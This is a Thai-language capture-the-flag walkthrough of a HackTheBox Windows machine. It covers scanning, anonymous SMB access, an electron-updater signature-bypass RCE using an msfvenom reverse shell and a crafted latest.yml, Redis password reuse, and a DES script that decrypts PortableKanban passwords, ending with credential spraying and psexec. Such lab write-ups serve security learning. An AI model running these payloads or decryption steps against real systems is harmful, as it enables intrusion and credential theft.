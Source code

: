 
## SCAN to Target 

```bash
./scan.sh 10.10.10.237   
[*] Running rustscan...
[*] Running nmap on ports: 80,135,443,445,5985,6379
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-13 20:19 +07
Nmap scan report for 10.10.10.237 (10.10.10.237)
Host is up (0.034s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc        Microsoft Windows RPC
443/tcp  open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-title: Heed Solutions
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6379/tcp open  redis        Redis key-value store
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-13T12:59:02
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h59m27s, deviation: 4h02m32s, median: -20m34s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: ATOM
|   NetBIOS computer name: ATOM\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-13T05:59:06-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.99 seconds

```

## Enum HTTP on Port 80 

![](./IMG/001.png)

ด้านล่างจะพบว่ามีการใช้งานโดเมน MrR3boot@atom.htb จากนั้นให้เพิ่มข้อมูลลงไปในไฟล์ Hosts 

```bash
vim /etc/hosts
10.10.10.237 atom.htb 
```

จากนั้นหากตรวจสอบหน้า Web จะพบว่าเราสามารถ download โปรแกรมที่ชื่อว่า Heed ของ Windows ได้ และหากเข้าไปจะพบว่ามี Dictionary Listing ที่สามารถ Download ได้อยู่
![](./IMG/002.png)
## Enum SMB 

```bash
smbclient -N -L //10.10.10.237/ -U 'anonymous'
smbclient -N  //10.10.10.237/Software_Updates  -U 'anonymous' 

smb> ls 
```


![](./IMG/003.png)


## Host Research 
จากเอกสารเราจะพบข้อมูลสำคัญในการใช้งานโปรแกรม Head ซึ่งทำให้เราทราบว่า
1. โปรแกรมนี้ถูกสร้างโดย electron-builder
2. เราสามารถวางบางสิ่งบางอย่างลงในโฟลเดอร์ Client อะไรก็ได้ 



![](./IMG/005.png)
![](./IMG/004.png)

จากข้อมูลข้างต้น เราสามารถนำไปตรวจสอบข้อมูลของข่องโหว่ของโปรแกรมดังกล่าว 

![](./IMG/006.png)

จะพบว่ามี Blog หนึ่งเขียนไว้เกี่ยวกับช่องโหว่ RCE 
https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html


## Host Exploit 
จากนั้นดำเนินการสร้าง Shell ด้วย msfvenom แต่จุดสำคัญของช่องโหว่คือ ชื่อไฟล์จะต้องมี ==Singleqoute== อยู่ด้วย

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$(ip a show tun0 | grep 'inet ' | awk '{print $2}' | cut -d'/' -f1) LPORT=443 -f exe -o "r'everse.exe"


shasum -a 512 "r'everse.exe" | cut -d " " -f1 | xxd -r -p | base64 -w 0 

# ผลลัพธ์ ที่ได้  W+XIr+eDHZZJ/VyASn5OY2C3KVGCJIkPOfV5nDET9DqRG1yIXK/3MfLsMVCIhJ6c0TlBCjAhkWM8+xBi5ThoUA==   

vim latest.yml
version: 1.2.3
path:  http://10.10.14.9:8000/r'everse.exe
sha512: W+XIr+eDHZZJ/VyASn5OY2C3KVGCJIkPOfV5nDET9DqRG1yIXK/3MfLsMVCIhJ6c0TlBCjAhkWM8+xBi5ThoUA==
```

จากนั้น upload ไฟล์ latest.yml ด้วย smb จากนั้นรอ reverse shell กลับมาก็จะได้

![](./IMG/007.png)


--- 

# Priv Escalation
## Redis Enum 
![](./IMG/008.png)

เมื่อเข้าไปที่ Path ไฟล์ Config ของ Redis จะพบว่ามีการใช้งานคำสั่ง `requirepass kidvscat_yes_kidvscat` ซึ่งใน Redis หมายถึงการตั้งรหัสผ่านสำหรับการเชื่อมต่อกับ Redis server ด้วยการใช้คำสั่ง `requirepass` เพื่อกำหนดรหัสผ่านที่ต้องใช้ก่อนที่จะสามารถเข้าถึง Redis instance ได้
ในกรณีนี้:
- `requirepass` เป็นคำสั่งใน Redis ที่ใช้ในการตั้งรหัสผ่านเพื่อบังคับให้ผู้ใช้ทุกคนต้องใช้รหัสผ่านที่ถูกต้องก่อนที่จะทำการคิวรีหรือปฏิบัติการต่างๆ บน Redis server
- `kidvscat_yes_kidvscat` คือรหัสผ่านที่ถูกตั้งขึ้นในกรณีนี้
    
ตัวอย่างการใช้งาน:

เมื่อคุณตั้งค่า `requirepass kidvscat_yes_kidvscat` ในไฟล์ `redis.conf` หรือใช้คำสั่งใน Redis shell จะต้องใช้รหัสผ่านนี้ในการเชื่อมต่อ Redis ตัวอย่างเช่น:

1. การตั้งรหัสผ่านใน `redis.conf`:
    ```
    requirepass kidvscat_yes_kidvscat
    ```
    
2. การเชื่อมต่อ Redis ด้วยรหัสผ่าน:

```powershell
    redis-cli 
    AUTH kidvscat_yes_kidvscat
```
    

หากสำเร็จจะขึ้น OK  
![](./IMG/009.png)

จากนั้นทดสอบรันคำสั่งใน Redis 
```sql
INFO

KEYS * 
pk:ids:User
pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff
pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
pk:ids:MetaDataClass


GET pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0



GET pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi","Role":"Admin","Inactive":false,"TimeStamp":637530169606440253}

```

จากด้านบนจะพบว่าเราได้ข้อมูลของ User administrator ที่ Password ถูกเข้ารหัสไว้ ซึ่งไม่สามารถนำไปใช้ได้ 

--- 

หากรัน WinPeas จะพบไฟล์ที่น่าสนใจอยู่ภายใต้ Download 


ซึ่งหากสำรวจข้อมูลภายใต้ Download เราจะพบว่าผุ้ใช้งานดังกล่าวมีการใช้งาน PortableKanban  โดย **PortableKanban** คือเครื่องมือที่ใช้สำหรับการจัดการงานและโครงการในรูปแบบของกระดาน Kanban ซึ่งถูกออกแบบให้สามารถพกพาได้หรือใช้ได้ทุกที่ ด้วยคุณสมบัติที่สามารถปรับเปลี่ยนและติดตามสถานะของงานในลักษณะภาพรวมที่ชัดเจน โดยทั่วไปจะมีการแบ่งงานออกเป็นคอลัมน์ต่าง ๆ เช่น "To Do", "In Progress", และ "Done" เพื่อให้ทีมงานหรือบุคคลที่ใช้สามารถติดตามความคืบหน้าของงานได้ง่ายและสะดวก

## Crack Password form PortableKaban

![](./IMG/010.png)


```python
import json  
import base64  
from des import * #python3 -m pip install des  
  
try:  
    hash = str(input("Enter the Hash : "))  
    hash = base64.b64decode(hash.encode('utf-8'))  
    key = DesKey(b"7ly6UznJ")  
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))  
except:  
    print("Wrong Hash")
```

```python
python3 -m venv venv
pip3 install des
python3 decrypt.py 
```


![](./IMG/011.png)

หรือเราสามารถใช้ Cyberchef ได้ ดังต่อไปนี้ ซึ่งได้ผลลัพธ์เหมือนกัน 
![](./IMG/014.png)

--- 
## Cred.txt 
administrator:kidvscat_admin_@123

---

จากข้อมูลที่พบเราสามารถทดสอบได้ว่าสามารถโจมตีไปทีโปรโตคอลอะไรได้บ้าง 
```bash
for service in wmi winrm smb mssql rdp ssh ldap ftp vnc; do netexec $service 10.10.10.237 -u 'administrator' -p 'kidvscat_admin_@123'; done 
```

![](./IMG/012.png)

จากผลเราจะทดสอบโจมตีด้วย impacket-psexec 

![](./IMG/013.png)

--- 
# PWN !
